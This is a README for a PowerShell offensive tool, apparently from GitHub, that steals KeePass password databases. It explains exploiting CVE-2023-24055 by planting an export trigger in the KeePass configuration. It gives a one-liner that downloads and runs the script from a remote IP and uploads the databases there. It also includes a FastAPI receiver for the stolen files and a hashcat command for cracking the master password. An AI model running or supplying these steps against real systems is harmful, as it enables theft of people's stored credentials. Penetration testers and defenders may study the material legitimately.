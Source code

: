 # Invoke-KeePassBackup
This PowerShell script has been crafted to streamline the process of transmitting KeePass databases to a designated endpoint. Conceived as an indispensable tool for your penetration testing toolkit, it aims to facilitate the exfiltration of target databases, paving the way for subsequent exploitation. 🕊️

The goal is to incorporate comprehensive KeePass tests, thereby eliminating manual, time-consuming commands.

## Features
- Automatically locates the KeePass executable and ascertains its version.
- Adds an export trigger to the KeePass configuration if KeePass version is below 2.53 (a.k.a [`CVE-2023-24055`](https://nvd.nist.gov/vuln/detail/CVE-2023-24055).
- Backs up the current KeePass configuration before making changes.
- Scours all KeePass databases on the computer and uploads them to a given endpoint.
- Uses GZip compression for efficient backup size.
  
## Usage
Run the script using the following command:
```powershell
Invoke-KeePassBackup -url "https://backup.endpoint/u"
```

Knowing the real use-case, preferred running is from your own `HTTP(S)`/`WebDAV` server:
```powershell
$ip="192.168.45.218";powershell -nop -c "iex(irm http://$ip/Invoke-KeePassBackup.ps1); Invoke-KeePassBackup http://$ip/u"
```
It will output something like this:
```powershell
--------------- KeePass backup for noah@ITWR02
KeePass location: C:\Program Files\KeePass Password Safe 2\KeePass.exe
KeePass version: 2.51.1.0
--------------- Adding an export trigger on config file: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.xml
Backup of current config file done at: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.backup.xml
Export location: C:\Users\noah\AppData\Local\Temp\KeePassBackup.csv
Configuration complete. The trigger will go off as soon as it is opened.
--------------- Scanning for KeePass databases on ITWR02
Found KeePass database at: C:\Users\noah\Documents\Database.kdbx
Uploaded noah@ITWR02-20231012-Database.kdbx successfully!
```

The reception endpoint could resemble this FastAPI Python3 code snippet:
```python
@app.post("/u")
async def upload_file(x_file_name: str = Header(...), data: str = Body(...)):
    """
    Handle file upload via POST request.

    Args:
        x_file_name (str): The name of the file, from header.
        data (str): The body of the request containing the uploaded file's data.

    Raises:
        HTTPException: If the filename header is missing.
        HTTPException: If an error occurs during file upload.
    """

    if not x_file_name:
        raise HTTPException(
            status_code=status.HTTP_400_BAD_REQUEST,
            detail="Provide a filename with Header 'X-File-Name'",
        )

    try:
        # Decode the base64 data
        decoded_data = base64.b64decode(data.encode("utf-8"))

        # Check if the data is gzipped by looking at the first two bytes
        if decoded_data[:2] == b"\x1f\x8b":
            # If gzipped, decompress
            buffer = io.BytesIO(decoded_data)
            with gzip.GzipFile(fileobj=buffer, mode="rb") as f:
                processed_data = f.read()
        else:
            # If not gzipped, just use the decoded data as is
            processed_data = decoded_data

        # Save the file
        save_file_content(file_name=x_file_name, data=processed_data)

        return {"status": "success", "message": f"Received {x_file_name}."}

    except Exception as error:
        logger.error(f"Error while processing upload: {error}")
        raise HTTPException(status_code=500)
```

Once database received, to crack the KeePass database hash, first use `keepass2john` to extract the hash. Then, remove the prepended filename, which acts as a username, and utilize `hashcat` with the desired wordlist and rules.
```shell
hashcat $(keepass2john loot/noah@ITWR02-20231012-Database.kdbx | cut -d':' -f2-) -a 0 -O -D 1 -w 3 /usr/share/wordlists/rockyou.txt -m 13400 -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
